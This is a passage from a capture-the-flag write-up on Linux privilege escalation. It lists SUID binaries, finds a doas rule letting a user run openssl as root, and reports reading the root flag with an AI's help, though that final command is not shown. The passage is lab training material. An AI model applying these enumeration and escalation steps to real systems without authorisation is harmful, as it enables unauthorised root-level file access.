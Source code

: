   ```
  -rwsr-xr-x 1 root root 55528 Jul 21  2020 /snap/core20/1169/usr/bin/mount
  -rwsr-xr-x 1 root root 44784 Jul 14  2021 /snap/core20/1169/usr/bin/newgrp
  -rwsr-xr-x 1 root root 68208 Jul 14  2021 /snap/core20/1169/usr/bin/passwd
  -rwsr-xr-x 1 root root 67816 Jul 21  2020 /snap/core20/1169/usr/bin/su
  -rwsr-xr-x 1 root root 166056 Jan 19  2021 /snap/core20/1169/usr/bin/sudo
  -rwsr-xr-x 1 root root 39144 Jul 21  2020 /snap/core20/1169/usr/bin/umount
  -rwsr-xr-- 1 root systemd-resolve 51344 Jun 11  2020 /snap/core20/1169/usr/lib/dbus-1.0/dbus-daemon-launch-helper
  -rwsr-xr-x 1 root root 473576 Jul 23  2021 /snap/core20/1169/usr/lib/openssh/ssh-keysign
  -rwsr-xr-x 1 root root 123464 Jan  7  2022 /snap/snapd/14549/usr/lib/snapd/snap-confine
  -rwsr-xr-x 1 root root 115208 Oct  5  2021 /snap/snapd/13640/usr/lib/snapd/snap-confine
  -rwsr-xr-x 1 root root 68208 Jul 14  2021 /usr/bin/passwd
  -rwsr-xr-x 1 root root 166056 Jan 19  2021 /usr/bin/sudo
  -rwsr-xr-x 1 root root 88464 Jul 14  2021 /usr/bin/gpasswd
  -rwsr-xr-x 1 root root 55528 Jul 21  2020 /usr/bin/mount
  -rwsr-xr-x 1 root root 67816 Jul 21  2020 /usr/bin/su
  -rwsr-xr-x 1 root root 85064 Jul 14  2021 /usr/bin/chfn
  -rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount
  -rwsr-sr-x 1 daemon daemon 55560 Nov 12  2018 /usr/bin/at
  -rwsr-xr-x 1 root root 53040 Jul 14  2021 /usr/bin/chsh
  -rwsr-xr-x 1 root root 39144 Jul 21  2020 /usr/bin/umount
  -rwsr-xr-x 1 root root 39008 Feb  5  2021 /usr/bin/doas
  -rwsr-xr-x 1 root root 44784 Jul 14  2021 /usr/bin/newgrp
  -rwsr-xr-x 1 root root 19040 Jun  3  2021 /usr/libexec/polkit-agent-helper-1
  -rwsr-xr-x 1 root root 130408 Mar 26  2021 /usr/lib/snapd/snap-confine
  -rwsr-xr-x 1 root root 14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
  -rwsr-xr-- 1 root messagebus 51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  -rwsr-xr-x 1 root root 473576 Jul 23  2021 /usr/lib/openssh/ssh-keysign
  ```
  
- If you look closely, you will see this bad boi `-rwsr-xr-x 1 root root 39008 Feb  5  2021 /usr/bin/doas`.

- To simplify it, `doas` acts as sudo so we can use it to read the flag, but not get full access to root which is enough for us. You can follow this [cool guide](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/doas/).

  ```
  plot_admin@plotted:~$ find / -type f -name "doas.conf" 2>/dev/null
  /etc/doas.conf
  
  plot_admin@plotted:~$ cat /etc/doas.conf
  permit nopass plot_admin as root cmd openssl
  ```
  
- Perfect, when I tried to read the flag I got this:

  ```
  plot_admin@plotted:~$ doas -u root cat /root/root.txt
  doas: Operation not permitted
  ```

- Well, luckily GPT got my back and I read the flag by combining `doas` and `openssl`.
